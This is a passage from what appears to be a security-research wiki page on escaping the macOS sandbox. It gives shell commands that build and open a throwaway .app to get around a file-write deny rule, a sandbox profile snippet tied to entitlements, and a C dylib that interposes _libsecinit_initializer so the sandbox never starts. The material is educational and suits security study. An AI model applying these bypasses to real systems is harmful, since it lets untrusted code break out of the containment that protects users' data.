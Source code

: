 ### Not inherited restrictions

As explined in the **[bonus of this writeup](https://jhftss.github.io/A-New-Era-of-macOS-Sandbox-Escapes/)** a sandbox restriction like:

```
(version 1)
(allow default)
(deny file-write* (literal "/private/tmp/sbx"))
```

can be bypassed by a new process executing for example:

```bash
mkdir -p /tmp/poc.app/Contents/MacOS
echo '#!/bin/sh\n touch /tmp/sbx' > /tmp/poc.app/Contents/MacOS/poc
chmod +x /tmp/poc.app/Contents/MacOS/poc
open /tmp/poc.app
```

However, of course, this new process won't inherit entitlements or privileges from the parent process.

### Entitlements

Note that even if some **actions** might be **allowed by at he sandbox** if an application has an specific **entitlement**, like in:

```scheme
(when (entitlement "com.apple.security.network.client")
      (allow network-outbound (remote ip))
      (allow mach-lookup
             (global-name "com.apple.airportd")
             (global-name "com.apple.cfnetwork.AuthBrokerAgent")
             (global-name "com.apple.cfnetwork.cfnetworkagent")
             [...]
```

### Interposting Bypass

For more information about **Interposting** check:

{{#ref}}
../../../macos-proces-abuse/macos-function-hooking.md
{{#endref}}

#### Interpost `_libsecinit_initializer` to prevent the sandbox

```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
    printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
	void (*overriden__libsecinit_initializer)(void);
	void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```
